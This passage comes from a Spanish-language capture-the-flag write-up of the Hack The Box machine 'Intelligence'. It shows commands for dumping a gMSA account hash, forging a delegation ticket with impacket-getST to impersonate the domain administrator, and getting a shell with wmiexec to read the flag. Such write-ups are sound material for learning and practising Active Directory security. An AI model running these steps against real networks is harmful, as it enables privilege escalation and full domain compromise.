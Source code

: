 ```bash
python3 gMSADumper.py -u 'ted.graves' -p 'Mr.<REDACTED>' -d 'intelligence.htb'
```

![31](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/refs/heads/master/_includes/CTFIMG/Intelligence/31.png)

## Shell as Admin

Siguiendo la ruta de BlooHound ahora podriamos solicitar un TGT para el usuario Administrador utilizando la herramienta getST de impacket:

```bash
impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :486b1ed222932<REDACTED> -impersonate administrator intelligence.htb/svc_int
```

![32](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/refs/heads/master/_includes/CTFIMG/Intelligence/32.png)

Como vemos se ha almacenado el ticket en el fichero `administrator.ccache` podemos utilizar wmiexec de impacket para conectarnos realizando un “Pass The Hash” con el parametro -k. Lo primero que debemos hacer es exportar la variable `KRB5CCNAME` con el valor del ticket:

![33](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/refs/heads/master/_includes/CTFIMG/Intelligence/33.png)

A continuación podemos realizar el procedimiento mencionado y leer la flag del usuario Administrator

![34](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/refs/heads/master/_includes/CTFIMG/Intelligence/34.png)

Pwned! 🏴‍☠️